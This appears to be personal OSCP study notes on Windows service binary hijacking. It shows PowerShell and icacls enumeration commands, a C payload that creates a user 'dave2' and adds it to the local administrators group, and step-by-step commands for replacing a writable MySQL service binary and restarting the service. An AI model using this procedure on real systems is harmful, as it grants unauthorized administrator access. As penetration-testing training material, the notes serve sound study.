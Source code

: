 # Service Binary Hijacking

## Identifying the service:

use the following command to get services running:
`Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`

Find service that stand out, like the ones below that are in `C:\xamp\..` rather than `C:\Windows\..` as it means the system is user insalled.
![image](https://github.com/M-1-7-7/OSCP_2023_notes/assets/108218328/1be9da19-a270-486e-99f6-de808705d678)

## Process enumeration:
permision masks from icacls output:
![image](https://github.com/M-1-7-7/OSCP_2023_notes/assets/108218328/eb360fa7-dec2-49cf-9bf4-43cf7654e8b1)

use icacls to enumerate permisions and everything about the binary:
`icacls <path to binary>`

![image](https://github.com/M-1-7-7/OSCP_2023_notes/assets/108218328/df9f7775-3f4b-4a70-b1e6-5d552163fe41)

because the above photo, users only have read and execute priv, we can not modify the exploit



## steps to produce the attack:
![image](https://github.com/M-1-7-7/OSCP_2023_notes/assets/108218328/e1534de0-5c3c-4797-86b2-392fdedc46cc)
1. mysql.exe has full writes for users so we will use that so create a payload that will create a new user and add them to the admin group:
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
2. compile the code for windows like this `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe` or do it on the target machine

3. move the current `mysql.exe` out of the directory using:
   - `move C:\xampp\mysql\bin\mysqld.exe mysqld.exe`
  
4. move the malicious binary into replace the official one:
   - `move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe`
  
5. restart the service:
   - `net stop mysql` if you are allowed
   - else if start mode is set to `Auto` with this command `Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}` then restart computer `restart-computer`
   - 



